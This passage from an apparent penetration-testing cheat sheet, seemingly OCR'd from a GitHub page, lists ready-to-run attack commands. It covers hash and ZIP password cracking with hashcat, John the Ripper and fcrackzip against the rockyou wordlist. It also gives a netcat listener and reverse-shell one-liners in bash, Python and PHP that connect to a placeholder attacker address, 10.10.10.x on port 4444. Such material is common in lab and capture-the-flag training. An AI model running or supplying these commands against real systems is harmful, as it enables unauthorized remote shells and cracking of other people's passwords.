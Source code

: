 ### bcrypt Hash
Crack bcrypt hashes.
```bash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

## John the Ripper

### Crack Hashes with Wordlist
Crack various hash types using a wordlist.
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Zip File Cracking

### fcrackzip
Crack password-protected ZIP files.
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt protected.zip
```

# Reverse Shells & Listeners

### Start Netcat Listener
Listen for incoming connections on a specific port.
```bash
nc -lvnp 4444
```

### Bash Reverse Shell One-Liner
Establish a reverse shell using Bash.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.x/4444 0>&1'
```

### Python Reverse Shell One-Liner
Establish a reverse shell using Python.
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.x",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

### PHP Reverse Shell One-Liner
Establish a reverse shell using PHP.
```php
php -r '$sock=fsockopen("10.10.10.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
